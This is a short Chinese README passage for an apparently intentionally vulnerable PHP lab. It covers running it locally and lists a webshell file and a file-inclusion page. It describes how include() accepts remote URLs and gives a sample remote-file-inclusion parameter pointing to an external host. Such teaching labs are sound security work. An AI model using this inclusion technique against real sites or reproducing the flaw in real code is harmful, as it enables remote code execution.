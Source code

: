 ### Vulnerabilities

#### PHP

在安装好PHP的本地环境的PHP项目根目录（即本项目的PHP目录）运行

```shell
sudo php -S 0.0.0.0:80	or	php -S 0.0.0.0:8000
```

然后访问`127.0.0.1`或`http://localhost:8000/`等即可查看index.php，在`/`后面输入PHP文件名即可进行攻击测试。

##### webshell.php



##### file_include.php

使用file传递参数可以进行文件包含，`file_exists($file)`只会检测本地文件，而`include($file);`也可以通过HTTP协议和FTP协议对远程文件进行包含，如`file=https://m0dzer0.github.io/phpinfo.php`用以执行攻击。

